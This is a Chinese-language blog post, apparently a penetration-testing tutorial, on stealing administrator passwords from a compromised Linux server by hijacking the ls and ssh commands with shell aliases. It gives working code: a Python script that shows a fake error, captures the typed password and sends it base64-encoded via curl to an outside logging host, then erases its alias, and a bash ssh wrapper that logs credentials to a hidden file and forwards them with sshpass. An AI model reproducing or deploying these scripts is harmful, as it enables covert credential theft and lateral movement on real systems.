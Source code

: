 ```yaml
---
title: 探索基于linux别名特性窃取密码
date: 2020-02-12 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。





---
```


当通过web途径获取到linux机器时，往往想获取到root明文密码进行横向扩展，但是拿到shadow又无法解密，此时可以通过设置别名进行窃取管理员密码。

# 劫持系统ls命令：

首先设置变量别名到环境变量下并赋值文件权限

```
echo "alias ls=/var/tmp/update.py">> /root/.bash_profile 
chmod u+x /var/tmp/update.py
```

此处务必注意,在修改目标的任何配置文件之前,先备份下,不然出问题就尴尬了

```
cp /root/.bash_profile /var/tmp/.bash_profile
```

update.py具体代码如下：

```
#! /usr/bin/env python2.7
# -*- coding:UTF-8 -*-

import getpass
import os
import base64

filex = "/var/tmp/.pwds"

def password():

    if os.path.exists(filex):
        os.system('ls')
    else:
        print(("An unknown error occured and confirm your password:"))
        pwd = getpass.getpass("Password:")
        if len(pwd) == 0:
            pwd = getpass.getpass("Password:")

        # with open(filex,'w+') as f:
        #     f.write(a)
        url = 'http://shv707.ceye.io/{}'.format(base64.b64encode(pwd))
        os.popen('curl {} 2>/dev/null'.format(url))
        os.popen("sed -i '$d' /root/.bash_profile")
        os.mkdir(filex)
        os.system('ls')

if __name__ == "__main__":
    password()
```

等待管理员连接服务器后并执行ls时，就会弹出报错，要求输入密码而后将输入进的内容进行base64编码，通过拼接回传到攻击者页面，执行正常的命令并将环境变量恢复原样。

![img](https://www.yunzhijia.com/microblog/filesvr/5e44bdec28011f685eb60942)

# 劫持系统ssh命令：

当管理员执行ssh user@rhost时，首先执行攻击者设置好的别名文件，负责将输入的内容进行回传或保存本地，由于ssh不能通过管道符进行传参，则使用sshpass传参给正常的ssh连接。

```
echo "alias ssh=/var/tmp/ssh">> /root/.bash_profile 
chmod u+x /var/tmp/ssh
```

shell脚本具体代码如下：

```
#!/bin/bash

if [ $# != "1" ] 
then 
	/usr/bin/ssh 
else 
	echo -e "${1}'s password: \c" 
	read -s pass 
	echo $1":"$pass >> /var/tmp/.log 
	echo "" 
	sshpass -p "$pass" /usr/bin/ssh ${1}
fi
```

sshpass是用于非交互的ssh 密码验证

从命令行方式传递密码：

```
sshpass -p user_password ssh user_name@rhost
```

下载地址：

```
http://sourceforge.net/projects/sshpass/files/latest/download
```



下载后，解压，安装

```
tar -zxvf sshpass-1.06.tar.gz
./configure
make install
```



![img](https://www.yunzhijia.com/microblog/filesvr/5e44be5432f2ca5a1c6f190b)

最后，到指定的目录下，即可看到窃取到的远程服务器账号以及密码，如下：

![img](https://www.yunzhijia.com/microblog/filesvr/5e44c01790144e59595037cb)